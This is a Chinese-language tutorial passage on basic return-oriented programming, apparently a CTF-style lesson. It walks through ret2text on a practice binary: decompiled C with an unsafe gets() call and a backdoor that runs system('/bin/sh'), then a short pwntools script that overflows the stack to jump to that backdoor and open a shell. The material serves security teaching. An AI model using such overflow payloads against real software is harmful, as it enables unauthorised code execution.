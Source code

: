 # 基本ROP

因为NX保护的开启，直接向栈或者堆上直接注入代码的方式变得不可行，随之而生的是ROP(Return Oriented Programming)技术，栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

ROP一般满足的条件：

- 程序存在溢出，并且可以控制返回地址
- 可以找到满足条件的gadgets以及相应的gadgets的地址

## ret2text

ret2text 即控制程序执行程序本身已有的的代码 (.text)。
例子，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    int v4; // [sp+1Ch] [bp-64h]@1

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("There is something amazing here, do you know anything?");
    gets((char *)&v4);
    printf("Maybe I will tell you next time !");
    return 0;
    }
```

32位程序，仅开启了NX保护。main函数中，gets函数会造成栈溢出，此外还存在一个后门函数secure

```c++
    void secure()
    {
    unsigned int v0; // eax
    int input; // [esp+18h] [ebp-10h]
    int secretcode; // [esp+1Ch] [ebp-Ch]

    v0 = time(0);
    srand(v0);
    secretcode = rand();
    __isoc99_scanf((const char *)&unk_8048760, &input);
    if ( input == secretcode )
        system("/bin/sh");
    }
```

后门函数中逻辑也比较简单，需要让输入值等于随机生成的数才能执行`system("/bin/sh")`
因为函数中存在指令`system("/bin/sh")`，所以可以直接将main函数的retn到0x0804863A,然后就可以直接拿到shell；

```python
    from pwn import *

    p = process('./ret2text')

    target = 0x0804863A
    p.sendline('A'*(0x6c+4) + p32(target))
    p.interactive()

```

